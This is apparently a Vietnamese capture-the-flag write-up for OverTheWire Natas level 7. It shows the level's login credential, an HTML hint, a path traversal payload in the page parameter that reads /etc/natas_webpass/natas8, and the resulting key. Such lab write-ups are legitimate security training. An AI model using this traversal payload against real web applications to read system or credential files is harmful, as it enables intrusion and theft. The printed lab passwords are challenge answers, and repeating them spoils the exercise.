



# Natas Level 7

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas7.natas.labs.overthewire.org**     
**Credential: natas7:*bmg8SvU1LizuWjx3y7xkNERkHxGre0GS***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    


2. Có thể thấy ở level này, trang web có 2 link tới 2 page ```home``` và ```about``` và khi check source ta thấy có 1 hint:    
```bash
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Và ta thấy được ```index.php``` đã xử lý 2 page này giống như 1 biến: ```http://natas7.natas.labs.overthewire.org/index.php?page=home```



==> Ta sẽ thử path traversal trang web với payload:    
```bash
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../etc/natas_webpass/natas8
```



## 📌 Key: ```xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q```